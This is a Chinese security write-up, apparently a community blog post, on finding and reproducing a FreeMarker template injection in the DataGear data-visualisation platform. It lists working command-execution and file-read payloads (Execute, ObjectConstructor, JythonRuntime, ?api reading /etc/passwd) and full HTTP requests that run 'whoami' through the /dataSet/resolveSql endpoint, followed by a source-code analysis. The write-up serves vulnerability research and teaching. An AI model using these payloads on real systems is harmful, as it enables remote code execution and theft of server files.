










# 从0到1挖掘freemaker 模板注入-先知社区

> **来源**: https://xz.aliyun.com/news/17178  
> **文章ID**: 17178

---

# 从0到1挖掘freemaker 模板注入

## datagear 介绍

DataGear 是一款开源免费的数据可视化分析平台，自由制作任何您想要的数据看板，支持接入 SQL、CSV、Excel、HTTP 接口、JSON 等多种数据源。

友好接入的数据源  
支持运行时接入任意提供 JDBC 驱动的数据库，包括 MySQL、Oracle、PostgreSQL、SQL Server 等关系数据库，以及 Elasticsearch、ClickHouse、Hive 等大数据引擎

多样动态的数据集  
支持创建 SQL、CSV、Excel、HTTP 接口、JSON 数据集，并可设置为动态的参数化数据集，可定义文本框、下拉框、日期框、时间框等类型的数据集参数，灵活筛选满足不同业务需求的数据

强大丰富的数据图表  
数据图表可聚合绑定多个不同格式的数据集，轻松定义同比、环比图表，内置折线图、柱状图、饼图、地图、雷达图、漏斗图、散点图、K 线图、桑基图等 70+开箱即用的图表，并且支持自定义图表配置项，支持编写和上传自定义图表插件

自由开放的数据看板  
数据看板采用原生的 HTML 网页作为模板，支持导入任意 HTML 网页，支持以可视化方式进行看板设计和编辑，也支持使用 JavaScript、CSS 等 web 前端技术自由编辑看板源码，内置丰富的 API，可制作图表联动、数据钻取、异步加载、交互表单等个性化的数据看板。  
  
star 还是不错的

## 环境搭建

这个比较简单，只需要下载文件后  
<https://gitee.com/datagear/datagear>  
然后导入 idea，maven 构建一下就可以启动了，不过需要创建一个数据库

## freemaker 模板注入

### new 内置函数

在 FreeMarker 模板引擎中，new 是一个内置的关键字，用来创建新的实例对象。这个功能通常用于实例化 Java 类，并可以在创建对象时直接调用构造函数来初始化其属性。通过在模板中使用 new 关键字，你可以轻松地创建 Java 对象，并将其用在模板的渲染过程中，以支持动态数据的展示和处理。



这个类允许在 FreeMarker 模板中执行一些系统级别的操作，给了我们利用的机会


freemarker.template.utility.ObjectConstruct 是 FreeMarker 模板引擎中的一个辅助类，主要用于创建 Java 对象，并将其转换为 FreeMarker 可以识别和处理的模板数据模型。这使得模板可以动态地实例化对象，并将它们传递给模板进行渲染。



freemarker.template.utility.JythonRuntime 是 FreeMarker 模板引擎中的一个辅助类，它用于与 Jython（一个基于 Java 的 Python 解释器）进行交互。通过这个类，FreeMarker 模板可以执行 Python 脚本，从而在模板中动态执行 Python 代码，并将结果用于模板渲染。  
  
该方法重写了 Writer 类中的 flush 和 close 方法。在此实现中，接收到的字符序列会被附加到一个 StringBuilder 缓冲区中。当调用 flush 时，会执行 interpretBuffer 方法，该方法从缓冲区 buf 中提取字符串内容，并通过 exec 执行这些内容作为 Python 代码。

基于 `new` 构建新的对象，因此可以衍生出下面的三个 `payload`：

```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc").start()}

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>

<!--import org.python.util.PythonInterpreter注意引入这个依赖，还需要安装相应的依赖库到Lib中-->
```

<#assign> 标签用于在模板中定义变量。通过使用 <#assign> 标签，你可以将一个值赋给变量，并在模板的其他部分引用和使用这个变量。这使得在模板中能够创建和操作变量，从而支持更复杂的逻辑和功能。

### API 内置函数

api 内建函数用于调用 Java API，允许模板访问和调用 Java 类及其方法。例如，通过调用 Freemarker 提供的 API，你可以获取当前对象的类加载器，进而实现动态加载类，并执行相关命令。然而，需要注意的是，从 Freemarker 版本 2.3.22 开始，api 默认被禁用（即设为 false），这意味着不能随意使用此功能，除非显式启用。

[]

因此师傅们出现了以下的 payload:

从 api 接口中获取类的加载器，对恶意的类完成类的加载

```
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}
```

```
<#assign uri=object?api.class.getResource("/").toURI()> 
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()> 
<#assign is=input?api.getInputStream()> FILE:[<#list 0..999999999 as _> 
<#assign byte=is.read()> <#if byte == -1> <#break> </#if> ${byte}, </#list>]
```

## 漏洞复现

漏洞是在我们的/dataSet/resolveSql 路由

```
POST /dataSet/resolveSql HTTP/1.1
Host: 127.0.0.1:50401
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_ID_ANONYMOUS=97269975b0004387b7443950946b97a8; DETECTED_VERSION=5.1.0; MAIN_MENU_COLLAPSE=false; DETECT_NEW_VERSION_RESOLVED=true; JSESSIONID=558AD79A275792C7E90DB8962991CC43
Connection: keep-alive
Accept-Encoding: gzip, deflateAccept: */*Connection: keep-alive
Content-Type: application/json
Content-Length: 17

{"sql": "${7*7}"}
```



还可以执行任意命令

```
POST /dataSet/resolveSql HTTP/1.1
Host: 127.0.0.1:50401
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_ID_ANONYMOUS=97269975b0004387b7443950946b97a8; DETECTED_VERSION=5.1.0; MAIN_MENU_COLLAPSE=false; DETECT_NEW_VERSION_RESOLVED=true; JSESSIONID=558AD79A275792C7E90DB8962991CC43
Connection: keep-alive
Accept-Encoding: gzip, deflateAccept: */*Connection: keep-alive
Content-Type: application/json
Content-Length: 88

{"sql": "<#assign value='freemarker.template.utility.Execute'?new()>${value('whoami')}"}
```

  
成功执行命令

## 漏洞分析

首先找到我们的路由

org/datagear/web/controller/DataSetController.java

```
@RequestMapping(value = "/resolveSql", produces = CONTENT_TYPE_HTML)
@ResponseBody
public String resolveSql(HttpServletRequest request, HttpServletResponse response,
        org.springframework.ui.Model springModel, @RequestBody ResolveSqlParam resolveSqlParam) throws Throwable
{
    return resolveSqlTemplate(request, response, resolveSqlParam.getSql(), resolveSqlParam.getParamValues(),
            resolveSqlParam.getDataSetParams());
}
```

主要就是

接收请求参数：通过 @RequestBody 注解接收 ResolveSqlParam 对象，该对象包含 SQL 语句、参数值和数据集参数。  
调用解析方法：将接收到的参数传递给 resolveSqlTemplate 方法进行 SQL 解析。  
传入的内容如下  
  
跟进 resolveSqlTemplate 方法

```
protected String resolveSqlTemplate(HttpServletRequest request, HttpServletResponse response, String source,
        Map<String, ?> paramValues, Collection<DataSetParam> dataSetParams)
{
    Map<String, ?> converted = getDataSetParamValueConverter().convert(paramValues, dataSetParams);

    DataSetQuery dataSetQuery = DataSetQuery.valueOf(converted);
    setAnalysisUserParamValue(request, response, dataSetQuery);

    return DataSetFmkTemplateResolvers.SQL.resolve(source, new TemplateContext(dataSetQuery.getParamValues()));
}
```

其中很明显看出 DataSetFmkTemplateResolvers.SQL.resolve 是解析我们 sql 语句的地方

然后把 sql 语句的查询语句作为实例化 TemplateContext 的参数

```
public String resolve(String template, TemplateContext templateContext) throws TemplateResolverException
{
    String re = null;

    Map<String, ?> values = templateContext.getValues();

    try
    {
        Template templateObj = this.configuration.getTemplate(template);
        StringWriter out = new StringWriter();
        templateObj.process(values, out);
        re = out.toString();
    }
    catch (IOException e)
    {
        throw new TemplateResolverException(e);
    }
    catch (TemplateException e)
    {
        throw new TemplateResolverException(e);
    }

    return re;
}
```

通过 getValues获取模板的内容开始解析  
把模板封装在 templateObj 对象中，然后调用 process 方法解析 value

解析模板其实就是不断返回视图的过程

```
void visit(TemplateElement element) throws IOException, TemplateException {
    this.pushElement(element);

    try {
        TemplateElement[] templateElementsToVisit = element.accept(this);
        if (templateElementsToVisit != null) {
            TemplateElement[] var3 = templateElementsToVisit;
            int var4 = templateElementsToVisit.length;

            for(int var5 = 0; var5 < var4; ++var5) {
                TemplateElement el = var3[var5];
                if (el == null) {
                    break;
                }

                this.visit(el);
            }
        }
    } catch (TemplateException var10) {
        this.handleTemplateException(var10);
    } finally {
        this.popElement();
    }

}
```

不断的循环解析我们的表达式

最后循环到我们最里面的内容



然后执行命令

最后返回执行结果作为模板渲染的结果  

